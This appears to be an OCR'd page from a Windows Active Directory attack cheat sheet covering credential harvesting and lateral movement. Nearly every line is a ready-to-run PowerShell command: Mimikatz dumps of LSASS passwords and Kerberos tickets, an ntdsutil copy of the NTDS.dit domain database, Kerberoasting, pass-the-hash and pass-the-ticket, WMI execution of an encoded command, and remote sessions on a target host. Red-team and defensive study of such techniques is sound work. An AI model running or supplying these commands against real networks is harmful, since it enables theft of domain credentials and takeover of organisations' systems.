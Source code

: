 
### **2. Credential Harvesting**

#### **Dump Credentials from LSASS (Mimikatz)**
```powershell
Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"'
```

#### **Extract Kerberos Tickets (Using Mimikatz)**
```powershell
Invoke-Mimikatz -Command '"sekurlsa::tickets"'
```

#### **Dump NTDS.dit (Domain Controller Database)**
```powershell
ntdsutil "ac i ntds" "ifm" "create full c:\ntds_dump" quit
```

#### **Kerberoasting (Request TGS for SPN)**
```powershell
Add-Type -AssemblyName System.IdentityModel  
$creds = Get-Credential  
$spns = Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName  
foreach ($spn in $spns) {  
    Invoke-Kerberoast -Identity $spn -Credential $creds  
}
```

---

### **3. Lateral Movement**

#### **Pass-the-Hash**
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:DOMAIN /ntlm:HASH /run:powershell.exe"'
```

#### **Pass-the-Ticket (Using Mimikatz)**
```powershell
Invoke-Mimikatz -Command '"kerberos::ptt /ticket:krbtgt_ticket.kirbi"'
```

#### **WMI for Remote Command Execution**
```powershell
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "powershell.exe -EncodedCommand <Base64_Encoded_Command>" -ComputerName "target-PC"
```

#### **Remote PowerShell Session**
```powershell
Enter-PSSession -ComputerName target-PC -Credential DOMAIN\user
```

#### **Invoke Command on Remote Machine**
```powershell
Invoke-Command -ComputerName target-PC -ScriptBlock { Get-Process }
```

---